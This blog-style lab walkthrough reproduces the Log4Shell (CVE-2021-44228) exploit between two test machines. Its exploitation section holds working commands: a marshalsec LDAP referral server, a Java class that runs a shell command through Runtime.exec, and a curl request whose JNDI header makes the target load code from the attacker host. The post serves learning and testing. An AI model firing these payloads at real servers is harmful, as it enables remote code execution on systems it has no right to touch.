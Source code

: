 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use these documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firsting firt i am starting to install docker on that machine.

#### **Docker İnstall On The Vulnerable Machine (10.250.1.60)**


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### **Installing Vulnerable Machine (10.250.1.60)**

- `cd /tmp`
- `sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
- `cd log4shell-vulnerable-app/`
- `sudo docker build . -t vulnerable-app`
- `sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## **Prepare Attacker Machine (10.250.1.61)**

#### **Install Java JDK On the Attacker Machine**

- `cd /tmp`
- `sudo apt update`
- `sudo apt-get install default-jdk`
- `wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
- `tar zxvf jdk-8u181-linux-x64.tar.gz`
- `sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
- `sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
- `sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
- `sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
- `sudo update-alternatives --config java` **choose the 1.8.0_181**
- `sudo update-alternatives --config javac`
- `sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

- `echo $JAVA_HOME`

- `java -version`

![Image](/img/java_ver.png)

---

#### **Prepare LDAP Referrer Server on The Attacker**

- `cd /tmp`
- `sudo apt install maven`
- `git clone https://github.com/mbechler/marshalsec`
- `cd /tmp/marshalsec`
- `sudo mvn clean package -DskipTests`
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### **Prepare Malicious Java Code On The Attacker**

- `mkdir /tmp/poc`
- `cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- `javac Log4jRCE.java`

- `sudo python3 -m http.server`

![Image](/img/javac.png)

#### **Exploit The Target Machine From The Attacker**

![Image](/img/exploitt.png)

- `curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### **Verify on the Victim Machine wheater code execution**

- `sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

